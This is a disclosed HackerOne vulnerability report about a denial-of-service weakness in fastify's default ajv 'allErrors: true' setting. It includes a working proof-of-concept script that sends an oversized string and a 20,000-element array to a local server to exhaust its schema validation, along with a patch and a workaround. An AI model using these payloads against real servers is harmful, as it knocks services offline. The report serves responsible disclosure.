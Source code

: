 # Fastify uses allErrors: true ajv configuration by default which is susceptible to DoS

## Report Details
- **Report ID**: 903521
- **URL**: https://hackerone.com/reports/903521
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-06-20T04:51:56.346Z
- **Disclosed**: 2020-07-29T12:53:44.132Z

## Reporter
- **Username**: chalker
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a denial of service vulnerability in fastify
It allows to cause a DoS with some schemas that were otherwise assumed to be secure against DoS by their authors

# Module

**module name:** fastify
**version:** `2.14.1`, `3.0.0-rc.4`
**npm page:** `https://www.npmjs.com/package/fastify`

## Module Description

> An efficient server implies a lower cost of the infrastructure, a better responsiveness under load and happy users. 

## Module Stats

114 076 weekly downloads

# Vulnerability

## Vulnerability Description

See <https://github.com/ajv-validator/ajv#security-risks-of-trusted-schemas>:

> **Please note:** The suggestions above to prevent slow validation would only work if you do NOT use `allErrors: true` in production code (using it would continue validation after validation errors).

`fastify` uses `allErrors: true` by default which makes it susceptible to DoS attacks even when schemas are otherwise safe.

E.g. a (sub-)schema `{ uniqueItems: true, maxItems: 10 }` is otherwise safe against DoS as `maxItems` is checked **first** and validation fails there on long arrays, _but that applies to only not in `allErrors: true` case_. 

Neither https://github.com/fastify/fastify/blob/master/docs/Validation-and-Serialization.md nor https://github.com/fastify/fastify/blob/master/docs/Recommendations.md mentions this directly.

Introduced in https://github.com/fastify/fastify/pull/1398

## Steps To Reproduce:

```js
/* Client */

const fetch = require('node-fetch')
const request = body => {
  const json = JSON.stringify(body)
  console.log(`Payload size: ${Math.round(json.length / 1024)} KiB`)
  return fetch('http://127.0.0.1:3000/', {
    method: 'POST',
    headers: {
      'Content-Type': 'application/json'
    },
    body: json
  })
}

const fireRequests = async () => {
  await request({ string: '@'.repeat(90000) })
  await request({ array: Array(20000).fill().map(() => ({x: Math.random().toString(32).slice(2)})) })
}

/* Server */

const fastify = require('fastify')({ logger: true })

const schema = {
  body: {
    type: 'object',
    properties: {
      array: { uniqueItems: true, maxItems: 10 },
      string: { pattern: "^[^/]+@.+#$", maxLength: 20 },
    }
  },
}

fastify.post('/', { schema }, (request, reply) => {
  reply.send({ hello: 'world', body: request.body })
})

fastify.listen(3000, (err, address) => {
  fastify.log.info(`server listening on ${address}`)
  fireRequests()
})
```

https://gist.github.com/ChALkeR/15e758d3fc5cbba0840b6a03a070c838

## Patch

Revert https://github.com/fastify/fastify/pull/1398

## Work-around

Use https://github.com/fastify/fastify/blob/master/docs/Server.md#ajv to override `allErrors` to `false` in ajv configuration.

# Wrap up

- I contacted the maintainer to let them know: N
- I opened an issue in the related repository: N

## Impact

Cause DoS in a presence of potentially slow pattern / format or `uniqueItems` in the schema, even when schema author guarded that with a length check to be otherwise immune to DoS.

## Attachments
No attachments
